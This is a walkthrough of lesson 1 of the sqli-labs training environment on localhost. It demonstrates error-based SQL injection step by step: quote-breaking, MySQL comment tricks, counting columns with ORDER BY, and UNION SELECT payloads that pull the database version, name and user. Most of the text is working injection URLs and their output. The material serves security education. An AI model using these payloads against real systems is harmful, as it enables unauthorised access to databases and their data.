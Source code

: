 #### 1. Lesson 1 - ``GET - Error based - Single Quote - String``

###### Fuzzing

```
http://127.0.0.1/sqli-labs/Less-1/?id=1
http://127.0.0.1/sqli-labs/Less-1/?id=2
http://127.0.0.1/sqli-labs/Less-1/?id=3
```

![](images/1/1.png)

![](images/1/2.png)

![](images/1/3.png)

```sql
select Login name, Password from table where id = [our_input]
```

```sql
select Login name, Password from table where id = 1
select Login name, Password from table where id = 2
select Login name, Password from table where id = 3
```

```
http://127.0.0.1/sqli-labs/Less-1/?id=somevalue
http://127.0.0.1/sqli-labs/Less-1/?id=123snyt
http://127.0.0.1/sqli-labs/Less-1/?id=99999999
```

![](images/1/4.png)

![](images/1/5.png)

![](images/1/6.png)

```
http://127.0.0.1/sqli-labs/Less-1/?id=1"
```

![](images/1/7.png)

###### Vulnerability Breakdown

```
http://127.0.0.1/sqli-labs/Less-1/?id=1'
```

![](images/1/8.png)

```
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''1'' LIMIT 0,1' at line 1
```

```
''1'' LIMIT 0,1' at line 1
'  '1'  ' LIMIT 0,1' at line 1
   '1' ' LIMIT 0,1
'   1'    ' LIMIT 0,1
1'
```

Remove the first and the last ```'``` and 3 more quotes will be left out of which 2 of them encapsulate out input

```
http://localhost/sqli-labs/Less-1/?id=1\
```

![](images/1/9.png)

```
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''1\' LIMIT 0,1' at line 1
```

```
''1\' LIMIT 0,1'
'1\' LIMIT 0,1
1\
```

--

###### Comments in MySQL

```
--
```

```
#
```

```
/* */
```

--

```
http://localhost/sqli-labs/Less-1/?id=1'--%20
```

![](images/1/10.png)

```
http://localhost/sqli-labs/Less-1/?id=1'#%20
http://localhost/sqli-labs/Less-1/?id=1'%23%20
```

![](images/1/11.png)

```
'1\' LIMIT 0,1
'1'--+     ' LIMIT 0,1
```

###### Fix the query

```
http://localhost/sqli-labs/Less-1/?id=1
http://localhost/sqli-labs/Less-1/?id=1'
http://localhost/sqli-labs/Less-1/?id=1'--+
```

![](images/1/12.png)

![](images/1/13.png)

![](images/1/14.png)

```
http://127.0.0.1/sqli-labs/Less-1/?id=1' AND 1=1 --+
http://127.0.0.1/sqli-labs/Less-1/?id=1' AND 1=0 --+
```

![](images/1/15.png)

![](images/1/16.png)

###### Identify the columns in the query

```
http://localhost/sqli-labs/Less-1/?id=1' order by 1--+
http://localhost/sqli-labs/Less-1/?id=1' order by 2--+
http://localhost/sqli-labs/Less-1/?id=1' order by 3--+
http://localhost/sqli-labs/Less-1/?id=1' order by 4--+
```

![](images/1/17.png)

![](images/1/18.png)

![](images/1/19.png)

![](images/1/20.png)

```sql
select col-1, col-2, col-3 from table where id = '  1' our_injection --+ ' 
```

###### Extract information

```
http://localhost/sqli-labs/Less-1/?id=1' union select 1,2,3 --+
```

![](images/1/21.png)

```
localhost/sqli-labs/Less-1/?id=999' union select 1,2,3 --+
```

![](images/1/22.png)

```
localhost/sqli-labs/Less-1/?id=999' union select 1,4,5 --+
```

![](images/1/23.png)

```
http://localhost/sqli-labs/Less-1/?id=999' union select 1,version(),5--+
```

![](images/1/24.png)

```
http://localhost/sqli-labs/Less-1/?id=999' union select 1,database(),5--+
```

![](images/1/25.png)

```
http://localhost/sqli-labs/Less-1/?id=999' union select 1,user(),5--+
```

![](images/1/26.png)

```
http://localhost/sqli-labs/Less-1/?id=999' union select 1,4,current_user-- 
```

![](images/1/27.png)